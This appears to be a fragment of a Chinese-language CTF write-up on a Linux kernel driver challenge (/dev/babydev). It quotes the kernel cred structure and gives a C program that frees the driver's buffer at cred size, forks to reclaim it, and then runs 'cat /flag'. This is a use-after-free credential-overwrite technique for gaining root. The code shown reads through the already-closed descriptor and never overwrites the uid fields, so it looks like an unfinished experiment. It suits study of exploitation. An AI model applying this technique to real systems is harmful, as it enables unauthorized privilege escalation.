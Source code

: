 ![](../images/Pasted%20image%2020250305141722.png)
就没什么特别的，也没有前缀
看来这道题是学不到什么内存管理了（

看一下cred结构体
也就是修改这些
```c
struct cred {
    atomic_t    usage;                                  //02     4字节
    kuid_t      uid;        /* real UID of the task */  //0x03e8 8字节
    kgid_t      gid;        /* real GID of the task */  //0x03e8 12字节
    kuid_t      suid;       /* saved UID of the task */ //0x03e8 16字节
    kgid_t      sgid;       /* saved GID of the task */ //0x03e8 到这里是20字节
    ......
}
```


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> //close
#include <fcntl.h> //open
#include <sys/ioctl.h>
#include <sys/wait.h>

int main() {
	int fd = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);
	ioctl(fd, 0x10001, 0xa8);
	write(fd, "HelloWorld", 11);
	close(fd);
	
	char buf[20] = {0};
	
	printf("now:pid=%d ppid=%d, uid=%d\n", getpid(), getppid(),getuid());
	
	if(fork()==0){
		read(fd, buf, 20);
		for (int i = 0; i < 20; i++) {  
    		printf("%02x ", (unsigned char)buf[i]);  
		}  
		printf("\n"); 
		printf("fork:pid=%d ppid=%d, uid=%d\n", getpid(), getppid(),getuid());
		system("cat /flag");
		exit(0);
	}
	
	wait(NULL);
	return 0;

}
```
